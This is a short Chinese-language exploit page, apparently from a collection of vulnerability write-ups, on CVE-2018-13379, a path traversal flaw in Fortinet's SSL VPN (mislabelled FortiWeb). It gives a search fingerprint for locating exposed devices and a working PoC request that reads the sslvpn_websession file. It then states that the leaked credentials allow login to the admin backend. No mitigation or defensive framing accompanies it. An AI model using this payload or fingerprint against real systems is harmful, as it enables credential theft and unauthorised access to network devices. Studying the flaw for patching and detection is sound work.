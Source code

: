 # Fortinet FortiWeb sslvpn_websession 路径遍历漏洞 CVE-2018-13379

## 漏洞描述

Fortinet FortiWeb路径遍历漏洞，攻击者通过漏洞可以获取缓存信息，登录服务器

## 漏洞影响

<a-checkbox checked>Fortinet FortiWeb </a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="FortiToken clock drift detected"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656249876571-67ffe16d-92fa-4e83-a87e-8ae42a65b069.png)

验证POC

```php
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1656249978255-3ac076a5-e2c3-41dd-b2f9-527d4e7a3f68.png)

获取的账号密码即可登录后台